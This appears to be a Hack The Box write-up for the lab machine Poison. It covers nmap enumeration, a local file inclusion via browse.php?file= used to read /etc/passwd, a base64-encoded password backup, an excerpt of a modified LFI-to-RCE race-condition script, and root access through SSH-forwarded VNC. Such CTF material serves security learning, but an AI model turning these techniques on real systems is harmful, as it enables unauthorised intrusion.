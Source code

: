 ```yaml
---
"title": "Hack The Box - Poison"
"date": 2020-07-22
"tags": ["freebsd", "medium", "vnc", "lfi", "race_condition"]
"keywords": ["freebsd", "medium", "vnc", "lfi", "race_condition"]
"categories": ["HackTheBox OSCP-Like"]
"author": "Ghostbyt3"
"description": "Poison is an Medium box, getting initial is by finding the LFI and doing race condition or we can get the ssh password of the user directly by decoding the base64 and root is port forwarding VNC to our machine and login it as root."
"featured_image": "/img/htb-poison/Untitled.png"
"layout": "single"
"showTableOfContents": true
"authorbox": true
"pager": true
"toc": true
"mathjax": true
"sidebar": "right"
"subtitle": "HackTheBox OSCP-Like - Writeup"
---
```



![Untitled](/img/htb-poison/Untitled.png)

Poison is an Medium box, getting initial is by finding the LFI and doing race condition or we can get the ssh password of the user directly by decoding the base64 and root is port forwarding VNC to our machine and login it as root.

Link: [https://www.hackthebox.eu/home/machines/profile/132](https://www.hackthebox.eu/home/machines/profile/132)

Let's Begin with our Initial Nmap Scan.

## Nmap Scan Results

```bash
PORT   STATE SERVICE  VERSION
22/tcp open  ssh      OpenSSH 7.2 (FreeBSD 20161230; protocol 2.0)
| ssh-hostkey: 
|   2048 e3:3b:7d:3c:8f:4b:8c:f9:cd:7f:d2:3a:ce:2d:ff:bb (RSA)
|   256 4c:e8:c6:02:bd:fc:83:ff:c9:80:01:54:7d:22:81:72 (ECDSA)
|_  256 0b:8f:d5:71:85:90:13:85:61:8b:eb:34:13:5f:94:3b (ED25519)
80/tcp open  ssl/http Apache/2.4.29 (FreeBSD) PHP/5.6.32
|_http-server-header: Apache/2.4.29 (FreeBSD) PHP/5.6.32
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: FreeBSD 11.0-RELEASE - 12.0-CURRENT (97%), FreeBSD 11.0-STABLE (95%), FreeBSD 11.0-CURRENT (94%), FreeBSD 11.0-RELEASE (94%), FreeBSD 9.1-STABLE (92%), FreeBSD 7.0-RELEASE (91%), FreeBSD 12.0-CURRENT (90%), Sony Playstation 4 or FreeBSD 10.2-RELEASE (90%), FreeBSD 7.0-RELEASE-p2 - 7.1-PRERELEASE (89%), FreeNAS 9.10 (FreeBSD 10.3-STABLE) (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   203.44 ms 10.10.14.1
2   203.51 ms 10.10.10.84
```

## HTTP Enumeration

This webpage contains some php files, the `Scriptname` will helps us to diplay them.

![Untitled](/img/htb-poison/Untitled%201.png)

Here I tried to view `phpinfo` and it actually worked and also note that parameter helps to locate the files.

![Untitled](/img/htb-poison/Untitled%202.png)

Likewise I started checking all the files. Here we can see one more file called `pwdbackup.txt`

![Untitled](/img/htb-poison/Untitled%203.png)

## Getting User Shell

### Method 1

Checking that file reveals that it contains some base64 encoded stuff and its 13times encoded.

![Untitled](/img/htb-poison/Untitled%204.png)

So I just decoded that multiple times using CyberChef and I got a password thing.

![Untitled](/img/htb-poison/Untitled%205.png)

We know the `backup.php` uses a parameter called `file` so I tried for any LFI possible and I got `/etc/passwd` Here can see another user called charix.

![Untitled](/img/htb-poison/Untitled%206.png)

Tried login with ssh with the creds we got `charix : Charix!2#4%6&8(0`

![Untitled](/img/htb-poison/Untitled%207.png)

### Method 2

We know that we can view PHP Info and there is also LFI and  that uses race condition and can turn an LFI vulnerability to a remote code execution (RCE) vulnerability. There is a python script for this.

> [https://github.com/M4LV0/LFI-phpinfo-RCE/blob/master/exploit.py](https://github.com/M4LV0/LFI-phpinfo-RCE/blob/master/exploit.py)

And I changed some few things.

- Give the exact location of phpinfo.php
- Change the GET request to /browse.php?file= because this is where we found LFI

```py
REQ1="""POST /phpinfo.php?a="""+padding+""" HTTP/1.1\r
HTTP_ACCEPT: """ + padding + """\r
HTTP_USER_AGENT: """+padding+"""\r
Content-Type: multipart/form-data; boundary=---------------------------7dbff1ded0714\r
Content-Length: %s\r
Host: %s\r
\r
%s""" %(len(REQ1_DATA),host,REQ1_DATA)
    #modify this to suit the LFI script   
    LFIREQ="""GET /browse.php?file=%s HTTP/1.1\r
User-Agent: Mozilla/4.0\r
Proxy-Connection: Keep-Alive\r
Host: %s\r
```

- Added my IP address and the port which I need to Listen

Now if I run the script

![Untitled](/img/htb-poison/Untitled%208.png)

I got the shell as `www`

## Privilege Escalation

When checking the home directory, I found `secret.zip`

![Untitled](/img/htb-poison/Untitled%209.png)

Downloaded to my machine and extracted that, it asked for password and I used the same Charix ssh password and it extracted.

![Untitled](/img/htb-poison/Untitled%2010.png)

But the file looks different.

When checking the running process, I found that VNC is running as root.

```bash
charix@Poison:~ % ps aux
.
.
.
root    529   0.0  0.9  23620  9064 v0- I    05:59     0:00.22 Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/.Xauthority -geometry 1280x800
```

I checked whether the port is open and port 5901 is the port usually VNC runs.

```bash
charix@Poison:~/.vnc % netstat -an
Active Internet connections (including servers)
Proto Recv-Q Send-Q Local Address          Foreign Address        (state)
tcp4       0      0 10.10.10.84.64487      10.10.14.20.3333       ESTABLISHED
tcp4       0      0 10.10.10.84.80         10.10.14.20.41928      CLOSE_WAIT
tcp4       0     44 10.10.10.84.22         10.10.14.20.36254      ESTABLISHED
tcp4       0      0 127.0.0.1.25           *.*                    LISTEN
tcp4       0      0 *.80                   *.*                    LISTEN
tcp6       0      0 *.80                   *.*                    LISTEN
tcp4       0      0 *.22                   *.*                    LISTEN
tcp6       0      0 *.22                   *.*                    LISTEN
tcp4       0      0 127.0.0.1.5801         *.*                    LISTEN
tcp4       0      0 127.0.0.1.5901         *.*                    LISTEN
udp4       0      0 *.514                  *.*
```

So I did a local port forwarding of the port 5901 to my machine.

```bash
root@kali:~/CTF/HTB/Boxes/Poison# ssh -L 5901:127.0.0.1:5901 charix@10.10.10.84
```

Now We can try connecting to it by using vncviewer and it asks for password, So I guessed that the `secret` file we got from the zip can be password.

![Untitled](/img/htb-poison/Untitled%2011.png)

And It worked I logged in as root.

![Untitled](/img/htb-poison/Untitled%2012.png)

We own the box!!

We can decrypt the VNC password using this [tool](https://github.com/trinitronx/vncpasswd.py).

```bash
root@kali:~/CTF/HTB/Boxes/Poison/vncpasswd.py# python vncpasswd.py -d -f secret
Decrypted Bin Pass= 'VNCP@$$!'
Decrypted Hex Pass= '564e435040242421'
```